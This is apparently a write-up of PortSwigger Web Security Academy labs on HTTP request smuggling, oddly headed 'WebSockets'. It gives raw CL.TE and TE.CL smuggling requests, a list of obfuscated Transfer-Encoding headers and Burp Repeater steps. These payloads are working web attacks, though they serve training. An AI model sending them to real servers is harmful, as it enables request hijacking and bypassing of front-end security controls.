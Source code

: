 <!-- omit in toc -->
# WebSockets

<!-- omit in toc -->
## Tips
Here are the **testing** payloads to check if the website is vulnerable to HTTP Request smuggling:
### CL.TE Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

### TE.CL Payload
```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0


```

### Obfuscate TE header
```
Transfer-Encoding: xchunked
```

```
Transfer-Encoding : chunked
```

```
Transfer-Encoding: chunked
Transfer-Encoding: x
```

```
Transfer-Encoding:[tab]chunked
```

```
[space]Transfer-Encoding: chunked
```

```
X: X[\n]Transfer-Encoding: chunked
```

```
Transfer-Encoding
: chunked
```

<!-- omit in toc -->
## Table of Contents

- [HTTP request smuggling, basic CL.TE vulnerability](#http-request-smuggling-basic-clte-vulnerability)
- [HTTP request smuggling, basic TE.CL vulnerability](#http-request-smuggling-basic-tecl-vulnerability)
- [HTTP request smuggling, obfuscating the TE header](#http-request-smuggling-obfuscating-the-te-header)

## HTTP request smuggling, basic CL.TE vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

<!-- omit in toc -->
### Quick Solution
As said in the title this website is vulnerable to a simple CL.TE vulnerability. Payload in the next paragraph.

<!-- omit in toc -->
### Solution
Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```
The second response should say: ``Unrecognized method GPOST``.


## HTTP request smuggling, basic TE.CL vulnerability
Reference: https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl

<!-- omit in toc -->
### Quick Solution
As said in the title this website is vulnerable to a simple TE.CL vulnerability. Payload in the next paragraph.

<!-- omit in toc -->
### Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second response should say: ``Unrecognized method GPOST``.

## HTTP request smuggling, obfuscating the TE header
Reference: https://ac971f131f8e9498c0a86f1d00cd0030.web-security-academy.net/

<!-- omit in toc -->
### Quick Solution
In this case the TE header had to be obfuscated. Payload in the next paragraph.

<!-- omit in toc -->
### Solution
In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:
```
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```
The second response should say: ``Unrecognized method GPOST``. 